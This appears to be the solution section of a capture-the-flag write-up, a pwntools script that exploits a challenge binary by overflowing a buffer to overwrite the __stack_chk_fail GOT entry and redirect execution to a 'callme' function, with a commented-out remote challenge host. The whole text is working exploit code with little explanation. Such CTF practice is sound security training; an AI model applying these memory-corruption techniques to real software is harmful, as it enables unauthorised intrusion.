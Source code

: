 Solution:
```python
from pwn import *

context.binary = "./chall"

e = ELF('./chall')
#r = e.process()
gs = """
b*main+510
"""
s = process(executable = "./chall", argv = [])
#s = remote("string-chan-b4fc1611fb16fcab.chall.ctf.blackpinker.com", 443, ssl = True)
payload = b'A' * 0x20 + p64(e.got['__stack_chk_fail']) + p64(8) * 2 #pointer, size, allocate capacity respectively
s.sendlineafter(b'choice: ',b'1')
s.sendline(payload)

s.sendlineafter(b'choice: ',b'3')

ret = p64(0x000000000040101a)
s.sendlineafter(b'str: ', ret)

callme = p64(0x00000000004016de)
payload = b'\x00' * 0x68
payload +=  callme
s.sendline(b'1')

s.sendline(payload)

s.sendline(b'100') # break loop
s.interactive()
```
